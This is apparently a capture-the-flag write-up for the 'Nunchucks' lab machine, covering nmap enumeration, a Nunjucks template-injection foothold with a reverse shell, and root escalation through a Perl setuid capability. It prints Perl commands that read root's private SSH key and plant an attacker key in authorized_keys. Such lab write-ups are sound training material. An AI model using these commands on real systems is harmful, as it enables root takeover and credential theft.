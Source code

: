 # Nunchuncks

---

## Enumeration

- nmap:

```
Not shown: 65532 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6c146dbb7459c3782e48f511d85b4721 (RSA)
|   256 a2f42c427465a37c26dd497223827271 (ECDSA)
|_  256 e18d44e7216d7c132fea3b8358aa02b3 (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://nunchucks.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 4BD6ED13BE03ECBBD7F9FA7BAA036F95
|_http-title: Nunchucks - Landing Page
| tls-nextprotoneg: 
|_  http/1.1
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorset/countryName=UK
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
| Issuer: commonName=Nunchucks-CA/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-08-30T15:42:24
| Not valid after:  2031-08-28T15:42:24
| MD5:   57fc410de8091ce682f97bee4f396fe4
|_SHA-1: 518c0fd1690375c0f26ba6cbe37d53b8a3ff858b
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- Scan reveals domain name since it does redirects: `nunchucks.htb` -> /etc/hosts
- port 80 redirects to https port 443
- Found subdomain `store`
- Login & Register is down on main domain
- Email submission on store.nunchucks.htb is vulnerable to SSTI!!
- Wrote python script to start hacking. pwn.py
- After tinkering around, it's using NUNJUCKS (NodeJS), also in response header we can see powered by express
- https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

---

## Lateral movement

- Developed python script, added option to get revshell on port 9000
- got user.txt!

---

## PrivEsc

- getcap -r / 2>/dev/null
- https://gtfobins.github.io/gtfobins/perl/#capabilities
- perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "cat /root/.ssh/id_rsa";'
- Still couldn't get root flag


- script:

```perl
#!/usr/bin/perl

use POSIX qw(setuid);
POSIX::setuid(0);
exec "echo [RSA_PUB] > /root/.ssh/authorized_keys";
```
- Used SSH with private key to log in as root.

---

